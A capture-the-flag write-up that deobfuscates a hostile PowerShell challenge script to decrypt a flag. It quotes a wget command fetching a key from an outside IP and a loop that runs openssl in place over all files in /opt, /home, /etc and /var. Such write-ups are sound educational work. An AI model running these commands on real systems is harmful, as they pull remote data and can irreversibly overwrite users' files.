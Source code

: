 # DamCTF 2025: The Bash.ps1 Challenge

## Challenge Description
**Category:** Reverse Engineering  
**Files:** 
- `bash.ps1` - An obfuscated PowerShell script
- `enc` - An encrypted file with OpenSSL format

**Warning:** ⚠️ Do not run the PowerShell script! It contains code that could potentially harm your system.

## Initial Analysis

I started by examining the files to understand what I was dealing with:

```bash
$ file *
bash.ps1: ASCII text, with very long lines (2716), with CRLF line terminators
enc:      openssl enc'd data with salted password
```

The challenge provides a PowerShell script and an encrypted file. The script appears to be responsible for decrypting the `enc` file, but is heavily obfuscated with variable and function names consisting entirely of 'A' characters.

## Approach: Systematic Deobfuscation

Rather than executing the potentially harmful script, I decided to analyze it statically by systematically renaming variables and functions based on their behavior.

## Step 1: Understanding the Script Flow

After deobfuscation, I identified that the script follows this sequence:

```
Main
 ├─ CheckEnvironment
 ├─ BuildCharacterDictionary
 ├─ DownloadKey
 ├─ ProcessEncryptedFiles
 └─ RemoveKey
```

## Step 2: Analyzing Each Function

### CheckEnvironment Function

This function implements safety checks to prevent accidental execution:

```powershell
function CheckEnvironment 
{
    if ([int](&(Get-Command /???/id) -u) -cne -not [bool][byte]){exit}
    if (-not ((&(Get-Command /???/?at) /etc/*release*) | grep noble)){exit}
    if ((&(Get-Command /???/?at) /sys/class/net/enp0s3/address) -cne "08:00:27:eb:6b:49"){exit}
}
```

The key insights from this function:
- It checks if the script is running on Ubuntu 24.04 (Noble Numbat)
- It verifies a specific MAC address
- It ensures the script runs with specific user permissions

### BuildCharacterDictionary Function

This function constructs a custom character dictionary from OS information:

```powershell
function BuildCharacterDictionary
{
    $osReleaseLines = # Content of /etc/*release* from Ubuntu Noble
    $characterArray = # Complex concatenation of OS release lines
    $characterArray = (-join ($characterArray | sort-object | get-unique))
    $Global:CharacterDictionary = $characterArray
}
```

To accurately recreate this dictionary, I spun up a Docker container with Ubuntu Noble:

```bash
$ docker run -it ubuntu:noble /bin/bash
# Inside container
$ cat /etc/*release*
```

This gave me the exact OS release information needed to build the character dictionary. After processing according to the script's algorithm, I determined the dictionary was:
```
"-./:0123456789:=ABCDEGHIKLMNOPRSTUVY_abcdeghilmnoprstuvwy"
```

### DownloadKey Function

This function constructs a URL and downloads the decryption key:

```powershell
function DownloadKey 
{
    $keyUrl = # URL built from character indices
    $outputFile = $GLOBAL:CharacterDictionary[16]  # 'A'
    &(Get-Command /???/?ge?) $keyUrl -q -O $outputFile
}
```

By decoding the character indices against our dictionary, I determined the command being executed was:
```bash
wget 35.87.165.65:31337/key -q -O A
```

This downloads a key from the given IP address and port, saving it to a file named 'A'. For the challenge, I created this file with the mentioned key content.

### ProcessEncryptedFiles Function

This function executes the actual decryption:

```powershell
function ProcessEncryptedFiles
{
    foreach ($encryptedFile in (Invoke-Expression ('find /opt/ -type f')))
    {
        Invoke-Expression ("openssl enc -aes-256-cbc -d -pass file:key -in $encryptedFile -out $encryptedFile")
    }
    # Similar loops for /home/, /etc/, and /var/
}
```

The function:
1. Searches four system directories (/opt/, /home/, /etc/, /var/) for all files
2. Attempts to decrypt each file using OpenSSL with AES-256-CBC
3. Uses the key downloaded earlier

This informed me that I needed to use OpenSSL with AES-256-CBC for decryption.

## Step 3: Decrypting the Flag

Based on my analysis, I knew:
1. The encryption algorithm (AES-256-CBC)
2. The key was downloaded to a file named 'A'

The key downloaded from the URL was:
```
I understand that, without my agreement, Alpine F1 have put out a press release late this afternoon that I am driving for them next year. This is wrong and I have not signed a contract with Alpine for 2023. I will not be driving for Alpine next year.
```

To decrypt the flag, I ran:
NOTE: I renamed enc to encrypted_file
```bash
$ openssl enc -aes-256-cbc -d -pass file:A -in encrypted_file -out flag
$ cat flag
dam{unattended_arch_boxes_will_be_given_powershell}
```

## Flag
`dam{unattended_arch_boxes_will_be_given_powershell}` 
